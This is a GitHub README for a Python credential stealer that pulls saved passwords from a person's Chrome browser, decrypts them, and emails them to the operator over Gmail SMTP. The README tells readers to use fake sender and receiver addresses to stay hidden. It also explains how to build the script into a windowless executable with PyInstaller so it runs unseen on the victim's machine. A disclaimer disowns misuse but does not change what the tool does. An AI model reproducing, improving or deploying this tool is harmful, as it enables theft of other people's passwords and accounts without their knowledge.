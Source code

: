 # chrome_password_extractor

**Disclaimer: Please note that while I am the one who wrote this script, I am not in any way responsible for any individual who uses this for any unethical stuff.**

The chrome_password_extractor is a tool I've designed to grab saved passwords from an individual's google chrome browser.

There are two folders inside the repo in which you will find your executables and python source files. I used the pyinstaller module to freeze the source codes.

## Old

The Executable present in Old will essentially grab the login data file of Chrome, name it 'cleaned' and decrypt in and store it in a text file called 'a.txt'

## Updated

The Python script in the updated file not only allows you to carry out the earlier functions but has additional features. This updated scipt allows you the recieve all the passwords in you mail. What it'll do is check if the computer is connect to the internet. If it's connect it will send you an email otherwise it will create a .txt file containing the passwords like the older script.

All you have to do is initialize these variables:

    sender = "Sender's Email Address"
    reciever = "Reciver's Email Address"
    password1 = "Sender's Email Password"

* Sender's email address is the address you want to send the email from. Preferrably set it to a fake email.
* reciever's email address is the address you want ot recieve the email in . Set it to your own address or for extra safety, set to to another fake email.

If you want to use any mailing service other than gmail, you will have to edit the function:

    smtpObj = smtplib.SMTP('smtp.gmail.com', 587)

set the address to the smtp address of the email service you want to use and replace '587' with the tls port of that service.

### Make an exe file from the script

You may use any freezing library you want to freeze the file. I Prefer to use pyinstaller so, I will be showing you how to do this with pyinstaller.

* Firstly install pyinstaller using pip install
* Using your Command line cd into the directory where the script is kept.
* Then use the pyinstaller command to freeze the file:

It will look like:

    pyinstaller --onefile --noconsole main.py

* You can delete any other file or folder generated by pyinstaller other than the dist folder as it contains the .exe file that you will need.